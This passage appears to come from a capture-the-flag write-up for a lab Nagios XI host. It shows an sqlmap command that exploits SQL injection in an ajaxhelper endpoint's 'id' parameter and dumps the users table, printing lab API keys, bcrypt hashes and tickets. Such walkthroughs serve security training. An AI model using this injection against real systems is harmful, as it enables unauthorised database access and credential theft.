 ```shell
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+
```

The `xi_users` table sounds interesting and we dump that one.

```shell
labadmin@labmachine:~/monitored$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id -cookie="nagiosxi=jmn8jdqa8896k6pqkuov3lnqde" --threads=10 -D nagiosxi -T xi_users --dump
...[OMITTED]...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1715841407   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 6              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

...[OMITTED]...
```
